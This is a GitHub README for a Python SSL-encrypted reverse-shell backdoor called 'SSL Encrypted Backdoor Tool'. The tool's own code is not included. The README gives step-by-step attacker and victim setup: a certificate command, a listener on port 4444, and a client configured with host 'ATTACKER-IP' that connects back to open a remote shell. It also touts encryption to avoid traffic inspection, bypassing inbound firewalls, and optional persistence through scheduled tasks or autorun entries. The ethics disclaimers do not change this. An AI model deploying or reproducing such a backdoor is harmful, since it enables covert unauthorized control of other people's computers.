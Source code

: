 # 🔐 SSL Encrypted Backdoor Tool

A powerful Python-based SSL-encrypted backdoor for secure remote shell access. Built for ethical red teaming, penetration testing, and research purposes only.

![Python](https://img.shields.io/badge/Python-3.10+-blue.svg)
![Security](https://img.shields.io/badge/Use-Ethical-red)
![Platform](https://img.shields.io/badge/Platform-Windows%20%7C%20Linux-lightgrey)
![License](https://img.shields.io/badge/License-MIT-green)

---

## 🧠 Overview

This project implements a stealthy SSL-encrypted backdoor tool written in Python. It establishes a secure communication channel between a server (attacker) and a client (target) using SSL/TLS, providing command execution and remote shell capabilities.

- 🔒 **Secure Communication:** All data is encrypted using SSL to prevent traffic inspection.  
- ⚙️ **Cross-Platform Compatibility:** Works on both Windows and Linux systems.  
- 📡 **Simple Architecture:** Minimal dependencies and easy deployment.

> ⚠️ **Disclaimer:** This project is intended for educational and authorized penetration testing purposes only. Misuse of this tool is illegal and unethical.

---

## 📁 Project Structure

```
BACKDOOR/
├── server.py          # Listener/Handler running on the attacker machine
├── client.py          # Reverse backdoor that connects to attacker's server
└── README.md          # Documentation
```

---

## 🚀 Features

✅ SSL/TLS encrypted socket communication  
✅ Reverse shell functionality  
✅ Remote command execution  
✅ Dynamic client connection handling  
✅ Minimal footprint  

---

## ⚙️ Setup Instructions

### 🖥️ Server (Attacker)

Generate SSL Certificate (if not present):

```bash
openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
```

Run the Server Listener:

```bash
python server.py
```

You should see:

```
[+] Listening on 0.0.0.0:4444  
[+] Connection established with ('client-ip', port)  
Shell#
```

---

### 🖥️ Client (Victim)

Edit `client.py` and update with attacker IP:

```python
host = 'ATTACKER-IP'
port = 4444
```

Then run the client:

```bash
python client.py
```

Once executed, the client establishes an SSL connection back to the server and awaits commands.

---

## 🔧 Usage Example

1. Start `server.py` on the attacker machine.
2. Run `client.py` on the target machine.
3. Use the shell interface on the server to send commands:

```bash
Shell# whoami
Shell# ipconfig
Shell# dir
```

---

## 📌 How It Works

- **SSL Socket Wrapping:** Uses Python’s `ssl` module to wrap sockets with TLS encryption.  
- **Reverse Connection:** Client initiates the connection to bypass inbound firewall rules.  
- **Command Execution:** `subprocess.Popen` is used for shell command execution and output redirection.  
- **Persistence (Optional):** Can be configured as a scheduled task or autorun entry.

---

## 📦 Requirements

- Python 3.10+
- SSL Certificate (`cert.pem`, `key.pem`)
- OpenSSL (for certificate generation)

Install Python modules (uses built-in modules only):

```bash
pip install -r requirements.txt
```

📌 *Currently, no external Python packages are required.*

---

## 🛡 Ethical Usage

This tool was developed strictly for **educational**, **research**, and **authorized penetration testing**.  
🚫 Using this code for unauthorized access or malicious activity is a criminal offense.

---

## 🧑‍💻 Author

**Kasula Shiva**  
🎓 B.Tech CSE (Cybersecurity)  
🔗 GitHub: [shivakasula48](https://github.com/shivakasula48)  
📧 Email: [shivakasula10@gmail.com](mailto:shivakasula10@gmail.com)

---


## 📜 License

This project is open-source and free to use by anyone for personal or educational purposes.  
Feel free to modify, distribute, and use the code as long as proper credit is given to the original author, **Kasula Shiva**.

---

## 📡 Example Secure SSL Shell Prompt:

```
[+] Listening on 0.0.0.0:4444  
[+] Connection established with ('172.16.34.86', 49881)  
Shell# whoami  
Shell# dir  
```

---

## ⭐ Star the Repo

If you found this project useful or educational, consider giving it a ⭐ on GitHub!

---

## 📚 References

- [Python SSL Documentation](https://docs.python.org/3/library/ssl.html)
- Offensive Security Practices  
- Metasploit-style Reverse Shells
